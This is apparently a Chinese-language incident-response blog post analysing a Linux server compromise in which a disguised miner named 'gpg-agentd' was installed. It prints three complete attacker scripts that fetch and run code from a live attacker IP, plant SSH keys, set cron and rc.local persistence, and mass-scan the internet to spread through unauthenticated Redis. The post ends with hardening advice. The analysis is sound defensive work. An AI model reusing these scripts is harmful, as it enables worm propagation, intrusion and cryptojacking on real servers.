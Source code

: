 # 记一次 Linux 被入侵全过程

url:https://www.wangan.com/articles/1804

0x00 背景
周一早上刚到办公室，就听到同事说有一台服务器登陆不上了，我也没放在心上，继续边吃早点，边看币价是不是又跌了。不一会运维的同事也到了，气喘吁吁的说：我们有台服务器被阿里云冻结了，理由：对外恶意发包。我放下酸菜馅的包子，ssh 连了一下，被拒绝了，问了下默认的 22 端口被封了。让运维的同事把端口改了一下，立马连上去，顺便看了一下登录名:root，还有不足 8 位的小白密码，心里一凉：被黑了！

0x01 查找线索
服务器系统 CentOS 6.X，部署了 nginx，tomcat，redis 等应用，上来先把数据库全备份到本地，然后 top 命令看了一下，有 2 个 99% 的同名进程还在运行，叫 gpg-agentd。



google 了一下 gpg，结果是：

GPG 提供的 gpg-agent 提供了对 SSH 协议的支持，这个功能可以大大简化密钥的管理工作。

看起来像是一个很正经的程序嘛，但仔细再看看服务器上的进程后面还跟着一个字母 d，伪装的很好，让人想起来 windows 上各种看起来像 svchost.exe 的病毒。继续

ps eho command -p 23374netstat -pan | grep 23374
查看 pid:23374 进程启动路径和网络状况，也就是来到了图 1 的目录，到此已经找到了黑客留下的二进制可执行文件。接下来还有 2 个问题在等着我：

1、文件是怎么上传的？

history 看一下，记录果然都被清掉了，没留下任何痕迹。继续命令 more messages，



看到了在半夜 12 点左右，在服务器上装了很多软件，其中有几个软件引起了我的注意，下面详细讲。边找边猜，如果我们要做坏事，大概会在哪里做文章，自动启动？定时启动？对，计划任务。

crontab -e


果然，线索找到了。

0x02 作案动机
上面的计划任务的意思就是每 15 分钟去服务器上下载一个脚本，并且执行这个脚本。我们把脚本下载下来看一下。

curl -fsSL 159.89.190.243/ash.php > ash.sh
脚本内容如下：

uname -aidhostnamesetenforce 0 2>/dev/nullulimit -n 50000ulimit -u 50000crontab -r 2>/dev/nullrm -rf /var/spool/cron/* 2>/dev/nullmkdir -p /var/spool/cron/crontabs 2>/dev/nullmkdir -p /root/.ssh 2>/dev/nullecho 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfB19N9slQ6uMNY8dVZmTQAQhrdhlMsXVJeUD4AIH2tbg6Xk5PmwOpTeO5FhWRO11dh3inlvxxX5RRa/oKCWk0NNKmMza8YGLBiJsq/zsZYv6H6Haf51FCbTXf6lKt9g4LGoZkpNdhLIwPwDpB/B7nZqQYdTmbpEoCn6oHFYeimMEOqtQPo/szA9pX0RlOHgq7Duuu1ZjR68fTHpgc2qBSG37Sg2aTUR4CRzD4Li5fFXauvKplIim02pEY2zKCLtiYteHc0wph/xBj8wGKpHFP0xMbSNdZ/cmLMZ5S14XFSVSjCzIa0+xigBIrdgo2p5nBtrpYZ2/GN3+ThY+PNUqx redisX' > /root/.ssh/authorized_keysecho '*/15 * * * * curl -fsSL 159.89.190.243/ash.php|sh' > /var/spool/cron/rootecho '*/20 * * * * curl -fsSL 159.89.190.243/ash.php|sh' > /var/spool/cron/crontabs/rootyum install -y bash 2>/dev/nullapt install -y bash 2>/dev/nullapt-get install -y bash 2>/dev/nullbash -c 'curl -fsSL 159.89.190.243/bsh.php|bash' 2>/dev/null
大致分析一下该脚本的主要用途：

首先是关闭 SELinux，解除 shell 资源访问限制，然后在 /root/.ssh/authorized_keys 文件中生成 ssh 公钥，这样每次黑客登录这台服务器就可以免密码登录了，执行脚本就会方便很多，关于 ssh keys 的文章可以参考这一篇文章 SSH 原理与运用。接下来安装 bash，最后是继续下载第二个脚本 bsh.php，并且执行。

继续下载并分析 bsh.pbp，内容如下：

sleep $( seq 3 7 | sort -R | head -n1 )cd /tmp || cd /var/tmpsleep 1mkdir -p .ICE-unix/... && chmod -R 777 .ICE-unix && cd .ICE-unix/...sleep 1if [ -f .watch ]; thenrm -rf .watchexit 0fisleep 1echo 1 > .watchsleep 1ps x | awk '!/awk/ && /redisscan|ebscan|redis-cli/ {print $1}' | xargs kill -9 2>/dev/nullps x | awk '!/awk/ && /barad_agent|masscan|.sr0|clay|udevs|.sshd|xig/ {print $1}' | xargs kill -9 2>/dev/nullsleep 1if ! [ -x /usr/bin/gpg-agentd ]; thencurl -s -o /usr/bin/gpg-agentd 159.89.190.243/dump.dbecho '/usr/bin/gpg-agentd' > /etc/rc.localecho 'curl -fsSL 159.89.190.243/ash.php|sh' >> /etc/rc.localecho 'exit 0' >> /etc/rc.localfisleep 1chmod +x /usr/bin/gpg-agentd && /usr/bin/gpg-agentd || rm -rf /usr/bin/gpg-agentdsleep 1if ! [ -x "$(command -v masscan)" ]; thenrm -rf /var/lib/apt/lists/*rm -rf x1.tar.gzif [ -x "$(command -v apt-get)" ]; thenexport DEBIAN_FRONTEND=noninteractiveapt-get update -yapt-get install -y debconf-docapt-get install -y build-essentialapt-get install -y libpcap0.8-dev libpcap0.8apt-get install -y libpcap*apt-get install -y make gcc gitapt-get install -y redis-serverapt-get install -y redis-toolsapt-get install -y redisapt-get install -y iptablesapt-get install -y wget curlfiif [ -x "$(command -v yum)" ]; thenyum update -yyum install -y epel-releaseyum update -yyum install -y git iptables make gcc redis libpcap libpcap-develyum install -y wget curlfisleep 1curl -sL -o x1.tar.gz https://github.com/robertdavidgraham/masscan/archive/1.0.4.tar.gzsleep 1[ -f x1.tar.gz ] && tar zxf x1.tar.gz && cd masscan-1.0.4 && make && make install && cd .. && rm -rf masscan-1.0.4fisleep 3 && rm -rf .watchbash -c 'curl -fsSL 159.89.190.243/rsh.php|bash' 2>/dev/null
这段脚本的代码比较长，但主要的功能有 4 个：

下载远程代码到本地，添加执行权限，chmod u+x。
修改 rc.local，让本地代码开机自动执行。
下载 github 上的开源扫描器代码，并安装相关的依赖软件，也就是我上面的 messages 里看到的记录。
下载第三个脚本，并且执行。
我去 github 上看了下这个开源代码，简直吊炸天。

MASSCAN: Mass IP port scanner
This is the fastest Internet port
scanner. It can scan the entire Internet in under 6 minutes, >
transmitting 10 million packets per second.
It produces results similar to nmap, the most famous port scanner.
Internally, it operates more > like scanrand, unicornscan, and ZMap,
using asynchronous transmission. The major difference is > that it’s
faster than these other scanners. In addition, it’s more flexible,
allowing arbitrary > address ranges and port ranges.
NOTE: masscan uses a custom TCP/IP stack. Anything other than simple
port scans will cause conflict with the local TCP/IP stack. This means
you need to either use the -S option to use a separate IP address, or

transmitting 10 million packets per second (每秒发送 1000 万个数据包)，比 nmap 速度还要快，这就不难理解为什么阿里云把服务器冻结了，大概看了下 readme 之后，我也没有细究，继续下载第三个脚本。

setenforce 0 2>/dev/nullulimit -n 50000ulimit -u 50000sleep 1iptables -I INPUT 1 -p tcp --dport 6379 -j DROP 2>/dev/nulliptables -I INPUT 1 -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT 2>/dev/nullsleep 1rm -rf .dat .shard .ranges .lan 2>/dev/nullsleep 1echo 'config set dbfilename "backup.db"' > .datecho 'save' >> .datecho 'flushall' >> .datecho 'set backup1 "


*/2 * * * * curl -fsSL http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup2 "


*/3 * * * * wget -q -O- http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup3 "


*/4 * * * * curl -fsSL http://159.89.190.243/ash.php | sh

"' >> .datecho 'set backup4 "


*/5 * * * * wget -q -O- http://159.89.190.243/ash.php | sh

"' >> .datecho 'config set dir "/var/spool/cron/"' >> .datecho 'config set dbfilename "root"' >> .datecho 'save' >> .datecho 'config set dir "/var/spool/cron/crontabs"' >> .datecho 'save' >> .datsleep 1masscan --max-rate 10000 -p6379,6380 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shardsleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .shardsleep 1masscan --max-rate 10000 -p6379,6380 192.168.0.0/16 172.16.0.0/16 116.62.0.0/16 116.232.0.0/16 116.128.0.0/16 116.163.0.0/16 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .rangessleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .rangessleep 1ip a | grep -oE '([0-9]{1,3}.?){4}/[0-9]{2}' 2>/dev/null | sed 's//([0-9]{2})//16/g' > .inetsleep 1masscan --max-rate 10000 -p6379,6380 -iL .inet | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .lansleep 1while read -r h p; docat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &done < .lansleep 60rm -rf .dat .shard .ranges .lan 2>/dev/null
如果说前两个脚本只是在服务器上下载执行了二进制文件，那这个脚本才真正显示病毒的威力。下面就来分析这个脚本。

一开始的修改系统环境没什么好说的，接下来的写文件操作有点眼熟，如果用过 redis 的人，应该能猜到，这里是对 redis 进行配置。写这个配置，自然也就是利用了 redis 把缓存内容写入本地文件的漏洞，结果就是用本地的私钥去登陆被写入公钥的服务器了，无需密码就可以登陆，也就是我们文章最开始的 /root/.ssh/authorized_keys。登录之后就开始定期执行计划任务，下载脚本。好了，配置文件准备好了，就开始利用 masscan 进行全网扫描 redis 服务器，寻找肉鸡，注意看这 6379 就是 redis 服务器的默认端口，如果你的 redis 的监听端口是公网 IP 或是 0.0.0.0，并且没有密码保护，不好意思，你就中招了。

0x03 总结
通过依次分析这 3 个脚本，就能看出这个病毒的可怕之处，先是通过写入 ssh public key 拿到登录权限，然后下载执行远程二进制文件，最后再通过 redis 漏洞复制，迅速在全网传播，以指数级速度增长。那么问题是，这台服务器是怎么中招的呢？看了下 redis.conf，bind 的地址是 127.0.0.1，没啥问题。由此可以推断，应该是 root 帐号被暴力破解了，为了验证我的想法，我 lastb 看了一下，果然有大量的记录：



还剩最后一个问题，这个 gpg-agentd 程序到底是干什么的呢？我当时的第一个反应就是矿机，因为现在数字货币太火了，加大了分布式矿机的需求，也就催生了这条灰色产业链。于是，顺手把这个 gpg-agentd 拖到 ida 中，用 string 搜索 bitcoin,eth, mine 等相关单词，最终发现了这个：



打开 nicehash.com 看一下，一切都清晰了。



0x04 安全建议
一、服务器
1. 禁用 ROOT
2. 用户名和密码尽量复杂
3. 修改 ssh 的默认 22 端口
4. 安装 DenyHosts 防暴力破解软件

二、redis
1. 禁用公网 IP 监听，包括 0.0.0.0
2. 使用密码限制访问 redis

到此，整个入侵过程基本分析完了，如果大家对样本有兴趣，也可以自行去 curl，或是去虚拟机执行上面的脚本。鉴于本人能力有限，文中难免会出现疏忽或是错误，还请大家多多指正。

